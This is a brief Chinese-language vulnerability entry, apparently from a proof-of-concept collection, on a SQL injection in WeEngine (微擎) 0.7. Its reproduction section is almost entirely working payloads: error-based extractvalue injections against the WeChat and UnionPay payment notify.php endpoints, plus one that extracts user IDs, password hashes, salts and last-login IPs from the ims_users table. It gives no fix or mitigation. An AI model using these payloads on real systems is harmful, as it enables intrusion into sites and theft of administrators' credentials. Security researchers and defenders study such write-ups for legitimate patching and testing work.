 微擎 0.7 sql注入漏洞
====================

一、漏洞简介
------------

二、漏洞影响
------------

微擎 0.7

三、复现过程
------------

**此洞切记不可用sqlmap直接跑，否则会造成网站瘫痪。**

    http://www.0-sec.org/payment/wechat/notify.php?attach[]=1'and extractvalue(1, concat(0x5c, (select user()))),'1
    http://www.0-sec.org/payment/unionpay/notify.php
    post:
    reqReserved[]=1'and extractvalue(1, concat(0x5c, (select user()))),'1

### 补充：

    1)AND(EXP(~(SELECT*from(select group_concat(0x7B,uid,0x23,password,0x23,salt,0x23,lastvisit,0x23,lastip,0x7D) from we77.ims_users)a))) AND (1
